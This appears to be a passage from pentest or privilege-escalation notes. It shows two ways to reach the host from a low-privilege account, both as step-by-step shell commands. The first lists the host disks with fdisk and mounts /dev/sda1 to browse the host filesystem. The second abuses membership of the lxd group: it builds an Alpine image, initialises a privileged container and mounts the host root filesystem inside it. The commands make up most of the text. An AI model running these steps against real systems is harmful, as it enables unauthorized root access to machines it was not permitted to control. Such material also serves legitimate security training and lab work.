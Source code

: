 Using the command `fdisk -l` we can list the hosts disks.

We can then create a directory and attempt to mount **/dev/sda1** to it so we can see if we can browse the hosts file system.

```
mkdir /mnt/own
mount /dev/sda1 /mnt/own
cd /mnt/own
ls /mnt/own/root
```

### &#x20;LXC/LXD

#### LXD Abuse

Enumerate the group of the current user:

```bash
groups
# output
lxd
```

The lxd (Linux Daemon) is a system container manager, that controls lxc (Linux Container). Linux Container (LXC) is a virtualization technology that runs isolated containers using a single Linux kernel. It is possible for the user ash to create a privileged container and then use it to mount the host filesystem. To achieve this, we can download an Alpine image, and then upload it to the remote machine. Let's download and build the image locally. The image can be found here.

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder/
./build-alpine
```

A compressed file alpine-\*\*\*\*\*\*\*\*.tar.gz is created. Then download the file to the target machine. On the remote machine, run the following to initiate lxd, inputting no to all prompts.

```bash
lxd init
```

Next, we run the following command to import the alpine image.

```bash
lxc image import ./alpine-v3.12-x86_64-20201106_2000.tar.gz --alias alpine
```

To check if the image is successfully imported, type the following.

```bash
lxc image list
```

Next, we need to make the container privileged, and mount the filesystem, before starting the container.

```bash
lxc init alpine mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root
recursive=true
lxc start mycontainer
```

